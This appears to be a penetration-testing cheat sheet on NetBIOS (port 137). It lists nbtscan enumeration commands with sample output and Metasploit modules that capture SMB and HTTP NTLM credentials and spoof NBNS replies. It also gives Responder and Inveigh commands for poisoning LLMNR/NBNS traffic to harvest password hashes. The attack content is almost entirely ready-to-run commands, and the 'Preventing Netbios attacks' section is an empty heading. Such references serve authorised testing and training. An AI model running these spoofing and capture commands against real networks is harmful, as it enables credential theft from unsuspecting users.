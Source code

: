 # 137 - Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### nbt-wizz version version:&#x20;

Download:

```
wget http://www.unixwiz.net/tools/nbtscan-1.0.35-redhat-linux
```

```
root@Kali:~/Downloads# ./nbtscan-1.0.35-redhat-linux -A 192.168.0.15 
192.168.0.38    WORKGROUP\DOOKOSSEL             SHARING 
  DOOKOSSEL      <00> UNIQUE Workstation Service 
  DOOKOSSEL      <03> UNIQUE Messenger Service<3> 
  DOOKOSSEL      <20> UNIQUE File Server Service 
  ..__MSBROWSE__.<01> GROUP  Master Browser 
  WORKGROUP      <00> GROUP  Domain Name 
  WORKGROUP      <1d> UNIQUE Master Browser 
  WORKGROUP      <1e> GROUP  Browser Service Elections 
  00:00:00:00:00:00   ETHER
```

### Netbios Spoofing

#### Metasploit

```
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 

set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST 10.222.101.213
run
	
use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST 10.222.101.213
set SRVPORT 80
set URIPATH /
run
	
use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP 10.222.101.213
run
```



### Capture Netbios broadcasts

#### Responder

```
responder -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh\
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks
